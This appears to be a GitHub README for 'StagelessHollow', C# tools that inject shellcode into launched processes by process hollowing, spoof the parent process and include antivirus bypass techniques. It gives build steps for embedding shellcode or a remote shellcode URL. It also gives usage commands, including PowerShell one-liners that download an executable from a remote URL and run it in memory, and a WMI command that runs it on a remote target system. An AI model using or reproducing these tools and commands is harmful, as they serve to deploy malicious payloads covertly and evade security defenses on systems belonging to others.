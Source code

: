 # StagelessHollow
Multiple C# based tools that perform the Process Hollowing injection technique, can hold- or remotely fetch  base64 encoded shellcode, doesn't require any arguments to operate and has some additional AV heuristic bypass techniques baked in. Furthermore, the ParentProcessInjection tool performs the parent spoofing technique to further obfuscate its presence. 

### Prepare & Compile tool:
<b>ParentHollowInjection:</b>
```
- 1. Open the tool's project file in Visual Studio.
- 2. Either add your own base64 encoded shellcode directly in the placeholder OR specify an URL to fetch the shellcode remotely.
- 3. Specify the path to a program location that will be launched and used to inject the shellcode into.
- 4. Specify the name of an already running process (e.g. explorer) which will serve as the parent process (parent process spoofing).
- 5. Build the project (don't forget to enable the "Allow unsafe code" option under "Properties > Build").
```

<b>HollowInjection:</b>
```
- 1. Open the tool's project file in Visual Studio
- 2. Either add your own base64 encoded shellcode directly in the placeholder OR specify an URL to fetch the shellcode remotely.
- 3. Either specify the path to a program location that will be launched and used to inject the shellcode into OR specify the path as an argument during execution of the tool (check usage below). 
- 4. Build the project (don't forget to enable the "Allow unsafe code" option under "Properties > Build").
```

### Usage examples:
<b>ParentHollowInjection:</b>
Load ParentHollowInjector.exe from remote location and execute in memory using PowerShell:
```
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("https://<URL>/ParentHollowInjector.exe")); [ParentHollowInjector.Program]::Main(@(""))
```
After uploading ParentHollowInjector.exe to a target system, execute it remotely from disk:
```
Invoke-WmiMethod –ComputerName <FQDN target system> -Class win32_process -Name create -ArgumentList "C:\Windows\Temp\ParentHollowInjection.exe"
```

<b>HollowInjection:</b>
Run tool from disk with optional argument:
```
C:\Windows\Temp\HollowInjection.exe [/program:C:\<path to program.exe>]
```
Load tool from remote location and execute in memory with argument specified:
```
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("https://<URL>/HollowInjector.exe")); [HollowInjector.Program]::Main(@("/program:C:\Windows\System32\notepad.exe"))
```

### Credit & References:
This code is <b>heavily</b> based on the [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection) project which is on itself based on the Process Hollowing code from [Aaron Bray](https://github.com/ambray) and [Rasta Mouse](https://github.com/rasta-mouse). 




